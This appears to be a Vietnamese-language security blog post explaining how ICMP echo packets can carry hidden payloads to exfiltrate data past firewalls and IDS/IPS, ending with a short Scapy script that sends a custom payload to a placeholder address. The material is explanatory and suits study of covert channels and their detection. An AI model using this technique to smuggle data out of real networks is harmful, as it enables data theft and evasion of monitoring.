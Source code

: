 ```yaml
---
title:  "ICMP Packets with Payload"
date: 2025-04-13 10:00:00 +0700
comments: true
description: How to Create ICMP Packets with Payload to Exfiltrate Data
categories: [Cybersecurity, Networking]
toc: true
tags: [protocol, python, packet, icmp]
image:
    path: /assets/img/posts/2025-04-13-how-to-create-icmp-packet-with-payload-exfiltrate-data/icmp.png
    alt: Icmp
---
```


## Introduction
---
Trong một số tình huống, kẻ tấn công có thể lợi dụng giao thức ICMP để gửi dữ liệu ra ngoài mạng, vượt qua các tường lửa và hệ thống Phát hiện/Ngăn chặn xâm nhập (IDS/IPS). Điều này có thể được thực hiện bằng cách nhúng dữ liệu vào các gói ICMP Echo Request và Echo Reply, khiến việc phát hiện việc xâm nhập trở nên khó khăn hơn.

Các gói ICMP, thường được sử dụng cho các chẩn đoán mạng như "ping", có thể bị thao túng để mang theo các payload tùy chỉnh (dữ liệu) mà kẻ tấn công muốn gửi.

## ICMP Payload Theory
---
- **ICMP Echo Request (Loại 8) và Echo Reply (Loại 0)** là các loại gói ICMP phổ biến, thường được sử dụng cho các yêu cầu ping. Tuy nhiên, ngoài việc kiểm tra kết nối, chúng có thể chứa một payload — dữ liệu mà kẻ tấn công muốn gửi.
  
- **Payload** đề cập đến dữ liệu được bao gồm trong gói ICMP. Dữ liệu này có thể là văn bản thuần túy, thông tin đã mã hóa hoặc thậm chí là dữ liệu bị đánh cắp.

## Creating ICMP Packets with Payload
---
Bạn có thể tạo các gói ICMP với payload tùy chỉnh bằng cách sử dụng Python và thư viện `Scapy`. Dưới đây là ví dụ về cách tạo một gói ICMP Echo Request với payload tùy chỉnh.

```python
from scapy.all import IP, ICMP, send

def send_icmp_payload(target_ip, message):
    # The payload is the message you want to send, can be encoded data
    payload = bytes(message, 'utf-8')

    # Create an ICMP Echo Request packet
    packet = IP(dst=target_ip) / ICMP(type=8) / payload  # type=8 is Echo Request

    # Send the packet
    print(f"Sending ICMP Echo Request with payload to {target_ip}")
    send(packet)

## Target IP and the message to be sent
target_ip = "192.168.x.x"  # Replace with the actual target IP address
message = "This is a test payload that could contain exfiltrated data."

send_icmp_payload(target_ip, message)
```